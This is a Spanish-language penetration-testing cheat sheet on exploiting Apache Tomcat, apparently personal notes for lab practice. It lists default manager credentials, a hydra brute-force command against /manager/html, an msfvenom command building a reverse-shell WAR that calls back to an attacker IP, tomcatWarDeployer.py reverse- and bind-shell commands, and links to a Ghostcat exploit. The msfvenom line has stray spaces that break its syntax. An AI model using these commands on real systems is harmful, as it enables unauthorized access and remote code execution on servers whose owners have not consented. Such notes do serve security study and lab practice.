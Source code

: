# Tomcat Explotation

Tomcat es un servicio que se ejecuta en el puerto 80 o 443 preferentemente y es en esos puertos donde pueden comprobar el servicio y la version para ver si estan ante un tomcat.

- [[#Credenciales predeterminadas|Credenciales predeterminadas]]
- [[#fuerza bruta|fuerza bruta]]
- [[#RCE|RCE]]


## Credenciales predeterminadas

La ruta más interesante de Tomcat es **/ manager / html** , dentro de esa **ruta puede cargar e implementar archivos war** (ejecutar código). Pero esta ruta está protegida por autenticación básica de HTTP, las credenciales más comunes son:

* admin: admin
* tomcat: tomcat
* admin: \<NADA\>
* admin: s3cr3t
* **tomcat: s3cr3t**
* admin: tomcat
	
## fuerza bruta 

Mediante hidra puede realizar ataque de fuerza bruta a la autenticacion basica HTTP:

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

## RCE

Puede crear un .war malicioso con msfvenom y subir al war a la pagina y deployarlo:

```bash
msfvenom -p java / jsp_shell_reverse_tcp LHOST = 10.11.0.41 LPORT = 80 -f war -o revshell.war
```

o puede usar el script [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer):

```bash
git clone https://github.com/mgeeky/tomcatWarDeployer.git
```

reverse shell:

```bash
./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/
```

bind shell:

```bash
./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/
```

en algunos casos pedira que agregue el parametro **-x** al final.

```bash
./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/ -x
``` 

## GHOSTCAT

La vulnerabilidad Apache Ghostcat es una vulnerabilidad de inclusión de archivos que apareció en el primer trimestre de este año (2020) mientras el mundo se preparaba para una lucha de bloqueo contra el coronavirus.

Las versiones 6.x, 7.x, 8.x y 9.x de Apache Tomcat son vulnerables a este problema de Ghostcat.

```bash
8009/tcp abierto ajp13 Apache Jserv (Protocolo v1.3)

8080/tcp abierto http Apache Tomcat 9.0.30
```

EJEMPLO: [https://apkash8.medium.com/hunting-and-exploiting-apache-ghostcat-b7446ef83e74](https://apkash8.medium.com/hunting-and-exploiting-apache-ghostcat-b7446ef83e74)

exploit: [https://github.com/00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

practicar: [https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)